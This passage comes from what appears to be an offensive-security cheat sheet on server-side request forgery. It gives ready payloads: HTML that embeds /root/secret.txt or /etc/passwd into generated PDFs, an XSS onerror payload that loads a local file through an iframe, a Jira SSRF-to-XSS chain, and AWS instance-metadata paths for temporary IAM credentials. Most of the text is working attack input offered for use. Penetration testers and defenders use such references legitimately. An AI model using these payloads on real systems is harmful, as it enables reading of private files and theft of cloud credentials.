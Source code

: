 ## SSRF exploiting PDF file

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```powershell
<link rel=attachment href="file:///root/secret.txt">
```

## SSRF to XSS 

by [@D0rkerDevil & @alyssa.o.herrera](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)

```bash
http://brutelogic.com.br/poc.svg -> simple alert
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> simple ssrf

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## SSRF from XSS

### Using an iframe

The content of the file will be integrated inside the PDF as an image or text.

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### Using an attachment

Example of a PDF attachment using HTML 

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## SSRF URL for Cloud Instances

### SSRF URL for AWS Bucket

[Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)
Interesting path to look for at `http://169.254.169.254` or `http://instance-data`

```powershell
Always here : /latest/meta-data/{hostname,public-ipv4,...}
User data (startup script for auto-scaling) : /latest/user-data
Temporary AWS credentials : /latest/meta-data/iam/security-credentials/
```
